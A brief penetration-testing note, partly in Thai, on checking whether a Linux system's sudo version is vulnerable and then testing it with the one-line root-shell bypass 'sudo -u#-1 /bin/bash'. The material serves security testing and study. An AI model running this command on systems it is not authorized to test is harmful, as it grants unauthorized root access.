 Check os version
-------------------------------

Check sudo version
```
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```
ถ้าไม่ขึ้นอะไรแสดงว่าไม่อยู่ในช่วงช่วงเวอชั่นที่มีช่องโหว่

แต่ if version < 1.28
มีความเสี่ยงว่าจะมีช่องโหว่ทดสอบโดย
```
sudo -u#-1 /bin/bash
```
